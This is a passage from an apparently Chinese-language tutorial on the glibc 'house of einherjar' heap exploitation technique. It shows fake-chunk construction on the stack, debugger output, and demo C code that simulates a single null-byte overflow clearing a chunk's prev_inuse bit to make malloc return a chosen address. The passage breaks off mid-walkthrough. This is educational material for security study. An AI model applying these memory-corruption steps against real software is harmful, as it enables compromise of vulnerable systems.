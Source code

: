 我们可以在任意地方创建 fake chunk，在这里我们在栈上创建。只要你知道它的地址，你也可以在堆上或 bss 段上创建 fake chunk。

虽然某些情况下我们也可以执行 unsafe unlink，但是这里我们让 fwd 和 bck 指针都指向 fake chunk 以通过 unlink 的检查。

输出如下：

```
Our fake chunk at 0x7fffffffdc50 looks like:
prev_size (not used): 0x100
size: 0x100
fwd: 0x7fffffffdc50
bck: 0x7fffffffdc50
fwd_nextsize: 0x7fffffffdc50
bck_nextsize: 0x7fffffffdc50
```

查看内存：

```
pwndbg> p/x fake_chunk 
$1 = {0x100, 0x100, 0x7fffffffdc50, 0x7fffffffdc50, 0x7fffffffdc50, 0x7fffffffdc50}
```

也和我们的预期值相符。

在未来 free 掉 next chunk 时，让合并的堆块到 fake chunk 处，下一次 malloc 将返回我们想要的地址。

接下来 malloc 一个 chunk。

``` c++
	/* In this case it is easier if the chunk size attribute has a least significant byte with
	 * a value of 0x00. The least significant byte of this will be 0x00, because the size of 
	 * the chunk includes the amount requested plus some amount required for the metadata. */
	b = (uint8_t*) malloc(0xf8);
```

接下来我们假设有一个堆溢出漏洞，它会修改 chunk b 的 prev_inuse 位，这样 malloc 会认为 b 之前的 chunk 是空闲的。

``` c++
	uint64_t* b_size_ptr = (uint64_t*)(b - 8);
    /* This technique works by overwriting the size metadata of an allocated chunk as well as the prev_inuse bit*/

	fprintf(stderr, "\nb.size: %#lx\n", *b_size_ptr);
	fprintf(stderr, "b.size is: (0x100) | prev_inuse = 0x101\n");
	fprintf(stderr, "We overflow 'a' with a single null byte into the metadata of 'b'\n");
	a[real_a_size] = 0; 
	fprintf(stderr, "b.size: %#lx\n", *b_size_ptr);
    fprintf(stderr, "This is easiest if b.size is a multiple of 0x100 so you "
           "don't change the size of b, only its prev_inuse bit\n");
    fprintf(stderr, "If it had been modified, we would need a fake chunk inside "
           "b where it will try to consolidate the next chunk\n");
```

由于 b 的 size 是 0x100 的整数倍，因此不需要更改 b 的大小，只需要更改它的 prev_inuse 位。如果 b 的大小被修改，那我们需要在 b 的内部放一个 fake chunk 才能合并这个 chunk。

修改前：

